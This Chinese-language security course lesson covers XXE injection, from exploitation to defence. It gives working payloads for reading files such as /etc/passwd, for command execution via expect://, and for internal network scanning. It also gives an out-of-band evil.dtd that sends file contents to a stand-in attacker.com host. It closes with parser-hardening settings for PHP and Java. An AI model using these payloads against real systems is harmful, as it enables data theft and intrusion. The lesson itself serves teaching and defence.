










# 课程 P33：第31天 - XXE漏洞利用与防御 🛡️

在本节课中，我们将学习XML外部实体注入漏洞的利用方法，包括有回显和无回显场景下的攻击技术，并了解如何防御此类漏洞。

## 概述

XXE攻击发生在应用程序解析XML输入时，未禁止外部实体的加载，导致攻击者可以读取服务器上的敏感数据或执行其他恶意操作。

## PHP环境下的命令执行

在PHP引用外部实体时，如果目标服务器安装并加载了`expect`扩展，则可以执行系统命令。

**用法示例**：
```xml
<!DOCTYPE test [
    <!ENTITY xxe SYSTEM "expect://id">
]>
<test>&xxe;</test>
```
当解析此XML时，如果环境支持，会执行`id`命令并返回结果。

上一节我们介绍了PHP环境下的特殊情况，本节中我们来看看参数实体的具体应用。

## 参数实体详解

参数实体与普通实体的主要区别在于声明时使用百分号`%`，且主要在DTD内部使用。

**参数实体声明格式**：
- 内部参数实体：`<!ENTITY % 实体名 "实体值">`
- 外部参数实体：`<!ENTITY % 实体名 SYSTEM "URI">`



**参数实体引用**：
在DTD中使用`%实体名;`进行引用，不能在XML文档内容中直接引用。







以下是参数实体与普通实体的对比示例：
```xml
<!DOCTYPE test [
    <!-- 普通内部实体 -->
    <!ENTITY normal "hello">
    
    <!-- 普通外部实体 -->
    <!ENTITY file SYSTEM "file:///c:/windows/win.ini">
    
    <!-- 内部参数实体 -->
    <!ENTITY % param "world">
    
    <!-- 外部参数实体 -->
    <!ENTITY % external SYSTEM "http://localhost:9999/test.dtd">
    
    <!-- 在DTD中引用参数实体 -->
    %external;
    
    <!-- 通过参数实体定义普通实体 -->
    <!ENTITY combined "&normal; %param;">
]>
<test>&combined; &file;</test>
```





## 读取含特殊字符的文件

当需要读取的文件包含XML特殊字符（如`<`、`&`）时，直接读取会导致解析错误。解决方案是使用`CDATA`包裹内容。

**初始尝试（会失败）**：
```xml
<!DOCTYPE test [
    <!ENTITY % start "<![CDATA[">
    <!ENTITY % file SYSTEM "file:///d:/test.txt">
    <!ENTITY % end "]]>">
    <!ENTITY % all "<!ENTITY content '%start;%file;%end;'>">
    %all;
]>
<test>&content;</test>
```
此方法会报错：“参数实体引用不能出现在DTD内部子集的标记内”。

**正确方法**：
将参数实体引用放在外部DTD文件中。

以下是实现步骤：
1. 创建外部DTD文件（如`evil.dtd`）：
```xml
<!ENTITY % start "<![CDATA[">
<!ENTITY % file SYSTEM "file:///d:/test.txt">
<!ENTITY % end "]]>">
<!ENTITY % all "<!ENTITY content '%start;%file;%end;'>">
%all;
```

2. 在主XML中引用：
```xml
<!DOCTYPE test [
    <!ENTITY % dtd SYSTEM "http://attacker.com/evil.dtd">
    %dtd;
]>
<test>&content;</test>
```

## XXE漏洞发现

要发现XXE漏洞，首先需要找到接受XML作为输入的端点。

以下是发现漏洞的步骤：
1. **寻找XML输入点**：检查应用是否接受XML格式的输入，特别是将`Content-Type`改为`application/xml`进行测试。
2. **测试XML解析**：发送简单的XML数据，查看是否被成功解析。
3. **测试外部实体**：尝试引用外部实体，观察是否有请求发出或数据返回。

**检测示例**：
```xml
<?xml version="1.0"?>
<!DOCTYPE test [
    <!ENTITY xxe SYSTEM "http://your-subdomain.collaborator-server">
]>
<test>&xxe;</test>
```
如果存在XXE漏洞，协作服务器会收到请求。

## XXE漏洞利用

### 有回显利用

当存在回显时，可以直接读取文件内容。

以下是三种常见方式：
1. **直接文件读取**：`<!ENTITY xxe SYSTEM "file:///etc/passwd">`
2. **PHP伪协议**：`<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">`
3. **带特殊字符的文件**：使用前述的`CDATA`方法

### 无回显利用

大多数情况下，服务器不会直接返回解析结果，需要使用外带数据通道。

以下是利用思路：
1. 定义参数实体读取目标文件
2. 将文件内容作为URL的一部分发送到攻击者控制的服务器

**实现示例**：
1. 攻击者服务器上的`evil.dtd`：
```xml
<!ENTITY % file SYSTEM "file:///d:/test.txt">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://attacker.com:8998/?%file;'>">
%eval;
%exfil;
```

2. 目标XML：
```xml
<!DOCTYPE test [
    <!ENTITY % dtd SYSTEM "http://attacker.com/evil.dtd">
    %dtd;
]>
<test>test</test>
```

### 内网探测

利用XXE可以进行内网主机和端口探测。

以下是探测方法：
1. **主机发现**：
```xml
<!DOCTYPE test [
    <!ENTITY xxe SYSTEM "http://192.168.1.1:80">
]>
<test>&xxe;</test>
```
通过响应时间判断主机是否存活。

2. **端口扫描**：
```xml
<!DOCTYPE test [
    <!ENTITY xxe SYSTEM "http://192.168.1.1:PORT">
]>
<test>&xxe;</test>
```
将`PORT`设为变量进行爆破。

## 漏洞防御



要防御XXE漏洞，需要在解析XML时采取适当措施。



以下是防御建议：
1. **禁用外部实体**：在XML解析器中禁用外部实体加载
2. **使用安全解析器**：选择默认安全的XML解析库
3. **输入验证**：对XML输入进行严格验证和过滤
4. **最小权限**：以最小必要权限运行解析XML的应用程序

**PHP示例**：
```php
libxml_disable_entity_loader(true);
```

**Java示例**：
```java
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
dbf.setFeature("http://xml.org/sax/features/external-general-entities", false);
dbf.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
```

## 总结



本节课中我们一起学习了XXE漏洞的利用技术，包括参数实体的使用、有回显和无回显场景下的攻击方法，以及内网探测技术。同时，我们也了解了如何通过禁用外部实体和使用安全配置来防御这类漏洞。掌握这些知识对于理解和防范XML相关安全风险至关重要。